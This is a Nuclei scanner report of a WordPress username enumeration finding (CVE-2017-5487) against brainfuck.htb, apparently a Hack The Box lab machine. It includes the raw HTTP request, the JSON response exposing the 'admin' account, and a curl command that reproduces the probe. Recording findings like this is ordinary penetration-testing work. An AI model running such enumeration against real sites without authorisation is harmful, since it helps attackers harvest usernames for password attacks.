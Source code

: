 ### WordPress Core < 4.7.1 - Username Enumeration (CVE-2017-5487:usernames) found on https://brainfuck.htb
---
**Details**: **CVE-2017-5487:usernames**  matched at https://brainfuck.htb

**Protocol**: HTTP

**Full URL**: https://brainfuck.htb/?rest_route=/wp/v2/users/

**Timestamp**: Wed Aug 17 20:47:21 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Core < 4.7.1 - Username Enumeration |
| Authors | manas_harsh, daffainfo, geeknik, dr0pd34d |
| Tags | cve, cve2017, wordpress, wp |
| Severity | medium |
| Description | WordPress Core < 4.7.1 is susceptible to user enumeration because it does not properly restrict listings of post authors via wp-includes/rest-api/endpoints/class-wp-rest-users-controller.php in the REST API, which allows remote attackers to obtain sensitive information via a wp-json/wp/v2/users request. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N) |
| CWE-ID | [CWE-200](https://cwe.mitre.org/data/definitions/200.html) |
| CVE-ID | [CVE-2017-5487](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-5487) |
| CVSS-Score | 5.30 |
| shodan-query | http.component:"WordPress" |
| verified | true |

**Request**
```http
GET /?rest_route=/wp/v2/users/ HTTP/1.1
Host: brainfuck.htb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Access-Control-Allow-Headers: Authorization, Content-Type
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages
Allow: GET
Content-Type: application/json; charset=UTF-8
Date: Wed, 17 Aug 2022 19:47:22 GMT
Link: <https://brainfuck.htb/?rest_route=/>; rel="https://api.w.org/"
Server: nginx/1.10.0 (Ubuntu)
X-Content-Type-Options: nosniff
X-Robots-Tag: noindex
X-Wp-Total: 1
X-Wp-Totalpages: 1

[{"id":1,"name":"admin","url":"","description":"","link":"https:\/\/brainfuck.htb\/?author=1","slug":"admin","avatar_urls":{"24":"https:\/\/secure.gravatar.com\/avatar\/128fd66c3a3974b94626648c1350790f?s=24&d=mm&r=g","48":"https:\/\/secure.gravatar.com\/avatar\/128fd66c3a3974b94626648c1350790f?s=48&d=mm&r=g","96":"https:\/\/secure.gravatar.com\/avatar\/128fd66c3a3974b94626648c1350790f?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"https:\/\/brainfuck.htb\/?rest_route=\/wp\/v2\/users\/1"}],"collection":[{"href":"https:\/\/brainfuck.htb\/?rest_route=\/wp\/v2\/users"}]}}]
```

**Extra Information**

**Extracted results**:

- admin


References: 
- https://www.exploit-db.com/exploits/41497
- https://nvd.nist.gov/vuln/detail/cve-2017-5487
- https://www.wordfence.com/blog/2016/12/wordfence-blocks-username-harvesting-via-new-rest-api-wp-4-7/
- https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36' 'https://brainfuck.htb/?rest_route=/wp/v2/users/'
```
---
Generated by [Nuclei 2.7.4](https://github.com/projectdiscovery/nuclei)